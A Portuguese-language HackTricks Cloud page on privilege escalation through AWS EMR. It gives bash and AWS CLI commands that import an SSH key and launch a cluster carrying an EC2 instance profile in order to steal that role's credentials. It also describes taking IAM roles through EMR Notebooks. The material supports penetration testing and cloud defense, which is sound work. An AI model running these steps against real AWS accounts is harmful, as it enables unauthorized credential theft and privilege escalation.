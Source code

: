 # AWS - EMR Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## EMR

Mais **informações sobre EMR** em:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Um atacante com essas permissões pode **executar um novo cluster EMR anexando funções EC2** e tentar roubar suas credenciais.\
Observe que, para fazer isso, você precisaria **saber alguma chave priv ssh importada na conta** ou importar uma, e ser capaz de **abrir a porta 22 no nó mestre** (você pode ser capaz de fazer isso com os atributos `EmrManagedMasterSecurityGroup` e/ou `ServiceAccessSecurityGroup` dentro de `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Note como um **papel EMR** é especificado em `--service-role` e um **papel ec2** é especificado em `--ec2-attributes` dentro de `InstanceProfile`. No entanto, essa técnica só permite roubar as credenciais do papel EC2 (já que você se conectará via ssh), mas não o Papel IAM EMR.

**Impacto Potencial:** Privesc para o papel de serviço EC2 especificado.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Com essas permissões, um atacante pode ir para o **console AWS**, criar um Notebook e acessá-lo para roubar o Papel IAM.

{% hint style="danger" %}
Mesmo que você anexe um papel IAM à instância do notebook, em meus testes, percebi que consegui roubar credenciais gerenciadas pela AWS e não credenciais relacionadas ao papel IAM.
{% endhint %}

**Impacto Potencial:** Privesc para o papel gerenciado pela AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Apenas com esta permissão, um atacante poderá acessar o **Jupyter Notebook e roubar o papel IAM** associado a ele.\
A URL do notebook é `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Mesmo que você anexe um papel IAM à instância do notebook, em meus testes, percebi que consegui roubar credenciais gerenciadas pela AWS e não credenciais relacionadas ao papel IAM.
{% endhint %}

**Impacto Potencial:** Privesc para o papel gerenciado pela AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
